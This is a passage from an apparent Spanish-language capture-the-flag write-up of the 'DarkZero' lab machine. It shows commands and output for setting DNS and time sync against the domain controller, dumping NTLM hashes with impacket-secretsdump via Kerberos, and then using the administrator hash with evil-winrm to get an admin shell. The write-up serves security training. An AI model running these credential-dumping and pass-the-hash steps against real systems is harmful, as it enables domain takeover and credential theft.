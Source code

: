 Recuerda que para que funcione cualquier herramienta ante el **AD**, necesitamos estar dentro de la misma zona horaria.

Primero, agrega la IP de la máquina víctima al archivo `/etc/resolv.conf`:
```bash
nano /etc/resolv.conf
---------------------
# Generated by NetworkManager
nameserver 10.10.11.89
```
En este punto también debemos tener agregado el dominio al archivo `/etc/hosts`.

Si lo configuramos correctamente, debería poder resolvernos una consulta al dominio con **nslookup**:
```bash
nslookup DC01.darkzero.htb
Server:		10.10.11.89
Address:	10.10.11.89#53

Name:	DC01.darkzero.htb
Address: 172.16.20.1
Name:	DC01.darkzero.htb
Address: 10.10.11.89
```
Ahí está, funciona correctamente.

Ya solo falta entrar a la misma zona horaria, que puedes hacerlo con el comando **ntpdate** o **rdate** apuntando al dominio del **AD1**:
```bash
ntpdate -u DC01.darkzero.htb
2025-10-11 13:55:18.968419 (-0600) +25202.290225 +/- 0.038414 DC01.darkzero.htb 10.10.11.89 s1 no-leap
CLOCK: time stepped by 25202.290225

rdate -n DC01.darkzero.htb
Sat Oct 11 14:12:19 CST 2025
```
Revisa que estés en el mismo horario.

Ya con esto, podemos dumpear los **Hashes NTLM** con la herramienta **impacket-secretsdump**:
```bash
impacket-secretsdump -k -no-pass 'darkzero.htb/DC01$@DC01.darkzero.htb'
Impacket v0.13.0.dev0 - Copyright Fortra, LLC and its affiliated companies 

[-] Policy SPN target name validation might be restricting full DRSUAPI dump. Try -just-dc-user
[*] Dumping Domain Credentials (domain\uid:rid:lmhash:nthash)
[*] Using the DRSUAPI method to get NTDS.DIT secrets
Administrator:500:aad3b435
```
Muy bien, tenemos los Hashes y entre ellos el del **administrador**.

Aprovechemos que está activo el **servicio WinRM** para utilizar la herramienta **evil-winRM** y autenticarnos usando el **Hash NTLM** del **administrador**:
```bash
evil-winrm -i 10.10.11.89 -u administrator -H 591750...
                                        
Evil-WinRM shell v3.7
                                        
Warning: Remote path completions is disabled due to ruby limitation: undefined method `quoting_detection_proc' for module Reline
                                        
Data: For more information, check Evil-WinRM GitHub: https://github.com/Hackplayers/evil-winrm#Remote-path-completion
                                        
Info: Establishing connection to remote endpoint
*Evil-WinRM* PS C:\Users\Administrator\Documents> whoami
darkzero\administrator
```
